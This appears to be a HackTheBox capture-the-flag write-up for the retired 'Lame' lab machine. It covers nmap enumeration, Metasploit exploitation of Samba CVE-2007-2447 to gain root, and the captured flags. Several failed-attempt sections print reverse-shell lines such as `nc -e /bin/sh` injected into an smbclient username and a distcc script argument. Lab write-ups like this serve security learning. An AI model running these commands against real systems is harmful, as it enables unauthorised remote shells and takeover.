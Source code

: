 ```yaml
---
title: "HTB: Lame"
date: 2023-03-05
# weight: 1
author: MP
hideSummary: true
cover:
    image: "/write-ups/hackthebox/htb_lame/cover.jpg" # image path/url
    relative: true # when using page bundles set this to true
    hidden: false # only hide on current single page
---
```


---

## Enumeration
1. Started with an Nmap scan `nmap -sC -sV -Pn -oA nmap/full 10.10.10.3`
	1. `-sC` Scan with default NSE scripts. Considered useful for discovery and safe.
	2. `-sV` Attempts to determine the version of the service running on port.
	3. `-Pn` Ping probes were being blocked.
	4. `-oA nmap/full` Outputs all format results to a file named full in the nmap directory.

![](/write-ups/hackthebox/htb_lame/lame_01.png)

---

### VSFTPD

**CVE-2011-2523**

Starting with VSFTPD, I searched exploit-db for `vsftpd 2.3.4` and found the following backdoor command execution exploits: https://www.exploit-db.com/exploits/49757 & https://www.exploit-db.com/exploits/17491

The first link is to a Python3 file and the second link is to a Metasploit file; both files perform CVE-2011-2523.

---

### SMB

**CVE-2007-2447**

Next, I searched for exploit-db for `samba 3.0.20` and found a Metasploit exploit for CVE-2007-2447: https://www.exploit-db.com/exploits/16320

---

## Exploitation + Root
**SMB CVE-2007-2447 Using Metasploit**

I launched Metasploit using `msfconsole` and searched for Samba 3.0.20: 

`search samba 3.0.20`

![](/write-ups/hackthebox/htb_lame/lame_02.png)

Looking at the options for the exploit, I provided the target host address (RHOST), listen address (LHOST):

`show options`

`set rhost 10.10.10.3`

`set lhost 10.10.14.6`

![](/write-ups/hackthebox/htb_lame/lame_03.png)

After filling in the options, I ran the exploit and received a reverse shell as root:

`run`

`whoami`

![](/write-ups/hackthebox/htb_lame/lame_04.png)

After confirming I was root, I obtained both the user and root flags:

`cat /home/makis/user.txt` > `d1bd3634d0056ea44f390e8b8c81a1e3`

`cat /root/root.txt` > `d2a473c2dcb76bb90cf02a8d646564ed`

![](/write-ups/hackthebox/htb_lame/lame_05.png)

![](/write-ups/hackthebox/htb_lame/lame_05-2.png)

---

### Failed Exploit 1

**VSFTPD - CVE-2011-2523 Python Script**

I downloaded the Python file for CVE-2011-2523 from: https://www.exploit-db.com/exploits/49757
Trying to run the file I received a connection refused error

`python3 ./49757.py 10.10.10.3`

![](/write-ups/hackthebox/htb_lame/lame_06.png)

---

### Failed Exploit 2

**VSFTPD - CVE-2011-2523 Metasploit Script**

I launched Metasploit using `msfconsole` and located the exploit:

`search vsftpd 2.3.4`

`use 0`

Setting the target host address (RHOST) with `set rhost 10.10.10.3` and entering `run` returned a prompt to specify a password.

![](/write-ups/hackthebox/htb_lame/lame_07.png)

---

### Failed Exploit 3

**SMB CVE-2007-2447 Python Script**

I downloaded the exploit from the following address: https://github.com/amriunix/CVE-2007-2447

Next, I installed the dependent packages with pipx: `pipx install --include-deps pysmb`

I launched a Netcat listener on port 1234: `nc -lvnp 1234`

Finally, I tried running the exploit supplying the target address, target port, listener address, and listener port:

`python3 ./usermap_script.py 10.10.10.3 139 10.10.14.6 1234`

![](/write-ups/hackthebox/htb_lame/lame_08.png)

Looking into this error it turns out `pipx` is limited to Python3 packages: https://stackoverflow.com/questions/65974803/python2-7-no-smb-module-cant-locate

---

### Failed Exploit 4

**SMB Manually**

I tried the manual exploit from 0xdf's write-up: https://0xdf.gitlab.io/2020/04/07/htb-lame.html#completely-manually

Running the following I received a connection refused error:

`smbclient //10.10.10.3/tmp -U "./=`nohup nc -e /bin/sh 10.10.14.6 1234`"`


![](/write-ups/hackthebox/htb_lame/lame_09.png)

---

### Failed Exploit 5

**Distcc with Nmap**

I confirmed the Distcc script was installed with Nmap: `locate *.nse | grep distcc`

![](/write-ups/hackthebox/htb_lame/lame_10.png)

Next, I tried to run a remote command using the script I just located: `nmap -Pn -p 3632 10.10.10.3 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='id'"`

I also tried to run a remote command to provide a reverse shell with Netcat but the connection was filtered: `nmap -Pn -p 3632 10.10.10.3 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc -e /bin/sh 10.10.14.6 443'"`

![](/write-ups/hackthebox/htb_lame/lame_11.png)
